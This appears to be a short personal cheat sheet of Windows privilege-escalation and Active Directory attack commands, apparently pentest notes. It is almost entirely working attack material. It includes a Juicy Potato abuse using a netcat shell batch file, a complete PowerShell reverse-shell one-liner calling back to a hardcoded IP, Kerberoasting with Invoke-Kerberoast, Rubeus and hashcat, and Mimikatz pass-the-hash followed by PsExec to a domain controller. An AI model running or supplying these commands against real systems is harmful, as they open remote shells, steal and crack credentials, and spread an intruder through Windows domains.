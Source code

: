 
If SeImpersonatePrivilege is enabled 

Juicy Potato
Make and transfer shell.bat file with path\to\nc <IP> <PORT> -e cmd.exe
set up listener to port!!!
juicypotato.exe -l 1337 -p c:\windows\system32\shell.bat -t *


# Reverse Shells

Powershell Reverse Shell

powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.164',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


# UAC  bypass

https://www.hackingarticles.in/multiple-ways-to-bypass-uac-using-metasploit/



# Kerberoating

powershell -ExecutionPolicy Bypass -File .\Invoke-Kerberoast.ps1 -OutputFormat Hashcat -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 .\roast.txt


powershell -ExecutionPolicy Bypass -File  .\Invoke-Kerberoast.ps1 -OutputFormat Hashcat -ErrorAction SilentlyContinue


https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/

Use Rubeus!

./Rubeus.exe kerberoast /outfile:hash.txt

Then Hashcat!

hashcat -m 13100 --force -a 0 hash.txt dict.txt

# Pass The Hash


	Mimikatz
	
privilege::debug
sekurlsa::pth /user:  /domain:  /ntlm:
 
 Then use PsExec.exe \\dc01 cmd
 